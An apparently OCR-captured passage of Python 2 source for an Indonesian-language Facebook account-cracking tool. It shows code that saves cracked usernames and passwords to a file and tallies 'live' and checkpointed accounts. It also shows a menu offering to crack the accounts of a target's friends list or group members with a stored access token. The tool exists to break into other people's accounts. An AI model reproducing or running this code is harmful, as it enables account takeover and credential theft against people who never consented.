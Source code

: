                     cek = open('Cekpoint.txt', 'w')
                    cek.write(username + ' | ' + passw + '\n')
                    cek.close()
                    cekpoint.append('\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)
                    back += 1
                else:
                    gagal.append(username)
                    back += 1
            sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack    \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))
            sys.stdout.flush()

    except IOError:
        print '\n\x1b[1;91m[!] Koneksi terganggu'
        time.sleep(1)
    except requests.exceptions.ConnectionError:
        print '\x1b[1;91m[\xe2\x9c\x96] Tidak ada koneksi'


def hasil():
    print
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    for b in berhasil:
        print b

    for c in cekpoint:
        print c

    print
    print '\x1b[31m[x] Gagal \x1b[1;97m--> ' + str(len(gagal))
    keluar()


def super():
    global toket
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('reset')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Crack dari daftar Teman'
    print '\x1b[1;37;40m2. Crack dari member Grup'
    print '\x1b[1;31;40m0. Kembali'
    print
    pilih_super()
